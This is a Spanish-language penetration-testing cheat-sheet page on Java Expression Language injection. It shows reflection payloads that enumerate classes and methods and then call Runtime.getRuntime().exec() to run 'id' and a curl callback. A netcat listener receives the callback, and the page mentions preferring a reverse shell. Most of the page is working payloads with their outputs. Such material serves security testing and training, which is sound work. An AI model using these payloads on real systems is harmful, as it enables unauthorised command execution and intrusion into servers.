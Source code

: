 #### Jugar con las clases <a href="#playing-with-classes" id="playing-with-classes"></a>

En situaciones en las que no podemos escribir código plano:

```
{"x".getClass()}
[class java.lang.String]

{"".getClass().forName("java.util.Date")}
[class java.util.Date]
```

Enumate los métodos de los objetos:

```
{"".getClass().forName("java.util.Date").getMethods()[0].toString()}
[public boolean java.util.Date.before(java.util.Date)]
```

> El primer método accesible de java.util = **before()**

* https://www.javatpoint.com/java-date-before-method
* El paquete de datos tiene un método before() que toma un objeto Date como argumento

#### Ejecución de código EL <a href="#el-code-execution" id="el-code-execution"></a>

Probando RCE:

```
Java.lang.Runtime.getRuntime().exec(command)
java.lang.ProcessBuilder(command, argument1, argument2).start()
```

getRuntime intenta:

```
{"".getClass().forName("java.lang.Runtime").getMethods()[6].toString()}
[public static java.lang.Runtime java.lang.Runtime.getRuntime()]
```

Invoque la función final:

```
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("id")}
[Process[pid=2770, exitValue=0]]
```

En tal escenario, preferiríamos optar por un shell inverso interactivo. En este caso, confirmamos la existencia de la ejecución de código mediante la emisión de curl, de la siguiente manera:

```
{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://127.0.0.1/rce")}
[Process[pid=2816, exitValue="not exited"]]
```

La solicitud se recibe en un agente de escucha de netcat:

```
nc -lvnp 80
```
